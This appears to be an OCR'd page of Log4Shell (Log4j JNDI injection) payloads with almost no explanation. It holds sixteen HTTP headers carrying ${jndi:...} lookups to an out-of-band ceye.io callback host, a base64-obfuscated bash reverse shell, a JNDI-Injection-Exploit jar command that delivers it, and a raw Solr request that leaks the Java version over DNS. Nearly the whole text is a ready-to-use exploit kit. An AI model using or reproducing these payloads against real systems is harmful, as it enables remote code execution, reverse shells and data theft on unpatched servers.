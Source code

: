 payloads：
```
X-Client-IP: ${jndi:ldap://1644763261510dpicz.zdl7qs.ceye.io/VXBQo}
X-Remote-IP: ${jndi:ldap://1644763261510jnabe.zdl7qs.ceye.io/vl}
X-Remote-Addr: ${jndi:ldap://1644763261510xplnj.zdl7qs.ceye.io/hTE}
X-Forwarded-For: ${jndi:ldap://1644763261510lbnhl.zdl7qs.ceye.io/hvgsw}
X-Originating-IP: ${jndi:ldap://1644763261510pbhdy.zdl7qs.ceye.io/LxrC}
True-Client-IP: ${jndi:rmi://1644763261510jjchm.zdl7qs.ceye.io/FrfXm}
Originating-IP: ${jndi:rmi://1644763261510jctho.zdl7qs.ceye.io/vbP}
X-Real-IP: ${jndi:rmi://1644763261510fyvxt.zdl7qs.ceye.io/fWmjt}
Client-IP: ${jndi:rmi://1644763261510nfaoa.zdl7qs.ceye.io/mS}
X-Api-Version: ${jndi:rmi://1644763261510daeem.zdl7qs.ceye.io/IdJ}
Sec-Ch-Ua: ${jndi:dns://1644763261510wjiit.zdl7qs.ceye.io/IX}
Sec-Ch-Ua-Platform: ${jndi:dns://1644763261510dacbb.zdl7qs.ceye.io/ftA}
Sec-Fetch-Site: ${jndi:dns://1644763261510rypwe.zdl7qs.ceye.io/asWuD}
Sec-Fetch-Mode: ${jndi:dns://1644763261510osrig.zdl7qs.ceye.io/zc}
Sec-Fetch-User: ${jndi:dns://1644763261510uvfsl.zdl7qs.ceye.io/oNpOs}
Sec-Fetch-Dest: ${jndi:dns://1644763261510ptqen.zdl7qs.ceye.io/fGwFl}
```

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```
```
GET /solr/admin/cores?action=${jndi:dns://${sys:java.version}.dns.com} HTTP/1.1

Host: 127.0.0.1:8983

Cache-Control: max-age=0

sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

```